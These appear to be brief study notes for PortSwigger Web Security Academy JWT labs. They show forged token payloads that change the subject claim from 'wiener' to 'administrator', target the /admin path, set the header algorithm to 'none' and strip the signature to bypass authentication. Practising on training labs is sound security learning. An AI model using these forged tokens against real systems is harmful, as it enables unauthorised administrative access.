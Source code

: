 # JWT


### Lab: JWT authentication bypass via unverified signature


Payload
```
change path :  /admin

{"iss":"portswigger","exp":1760963935,"sub":"wiener"}

{"iss":"portswigger","exp":1760963935,"sub":"administrator"}



```


Payload
```
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"RS256"} 
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"none"}

- Remove the signature from the JWT, but remember to leave the trailing dot after the payload.

{"iss":"portswigger","exp":1760966827,"sub":"administrator"}

```